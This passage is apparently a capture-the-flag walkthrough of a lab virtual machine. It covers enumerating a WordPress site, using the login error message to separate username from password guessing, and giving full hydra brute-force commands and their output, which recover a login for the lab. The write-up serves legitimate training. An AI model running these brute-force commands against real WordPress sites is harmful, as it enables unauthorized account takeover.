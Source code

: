```
+ http://10.0.2.11/wp-mail (CODE:403|SIZE:3018)                                
+ http://10.0.2.11/wp-settings (CODE:500|SIZE:0)                               
+ http://10.0.2.11/wp-signup (CODE:302|SIZE:0)                                 
+ http://10.0.2.11/xmlrpc (CODE:405|SIZE:42)                                   
+ http://10.0.2.11/xmlrpc.php (CODE:405|SIZE:42)                               

```

I instantly see that there is a wordpress running on this VM.

sufing to the /login page redirected me to https://10.0.2.11/wp-login.php


surfing to https://10.0.2.11/phpmyadmin gave me the message: For security reasons, this URL is only accessible using localhost (127.0.0.1) as the hostname. So we should go back to this when we pwn the VM.

Other links yield very little interesting results, but feel free to browse through them for funzies.

----


## wpscanning

Since wordpress is running let's use the tool wpscan to check for any vulnerabilities
and the scan found nothing!

---

## bruteforcing the wordpress

we have a nice dictionary (fsociety.dic), but it's quite large and has a lot of duplicates, let's remove the duplicates first:
`sort fsocity.dic | uniq > fsocun`
now we dramatically reduced the size of the dictionary, and can now use it to bruteforce faster.

The first step of bruteforcing is to manually try a login first to see what error message you get,
after trying a wrong combination it gave me the message invalid username.
This is great, because now we can first bruteforce the username and after that the password, instead of trying to bruteforce both at the same time.

`hydra -Vv -L /root/Downloads/fsocuni -p randompass 10.0.2.11 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'`

after a while we got :
`[80][http-post-form] host: 10.0.2.11   login: ELLIOT   password: randompass`

so we know ELLIOT is a valid username, let's bruteforce his password

`hydra -Vv -l ELLIOT -P /root/Downloads/fsocuni  10.0.2.11 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'`

after a while we got:

`[80][http-post-form] host: 10.0.2.11   login: elliot   password: ER28-0652 `
